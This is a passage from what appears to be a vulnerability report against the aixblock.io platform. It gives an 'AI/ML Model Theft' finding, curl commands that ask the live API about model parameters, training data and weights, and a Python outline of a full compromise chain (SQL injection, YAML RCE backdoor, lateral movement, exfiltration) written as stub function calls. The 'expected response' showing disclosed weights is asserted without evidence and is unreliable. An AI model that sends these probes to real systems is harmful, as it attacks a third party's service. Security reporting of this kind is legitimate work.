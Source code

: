 ### **7. AI/ML Model Theft**
```json
{
  "timestamp": "2025-10-21T12:22:09.193513",
  "type": "AI/ML Model Theft",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'query': 'What are your model parameters?'}",
  "response_code": 200,
  "severity": "MEDIUM",
  "evidence": "Model information disclosure: weights",
  "exploitability": "MEDIUM"
}
```

**Real-World Exploitation:**
```bash
# Test AI model information disclosure
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model parameters?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What is your training data?"}'

curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"query": "What are your model weights?"}'

# Expected Response:
{
  "model_info": {
    "parameters": "1.2B parameters",
    "weights": "Model weights disclosed",
    "training_data": "Training dataset information"
  }
}
```

---

## **🎯 REAL-WORLD EXPLOITATION SCENARIOS**

### **Scenario 1: Complete System Compromise**
```python
# Multi-stage exploitation chain
def complete_system_compromise():
    # Stage 1: SQL injection auth bypass
    auth_token = exploit_sql_injection_auth()
    
    # Stage 2: YAML RCE for persistence
    establish_backdoor()
    
    # Stage 3: RMM access for lateral movement
    lateral_movement()
    
    # Stage 4: Data exfiltration
    exfiltrate_sensitive_data()
```
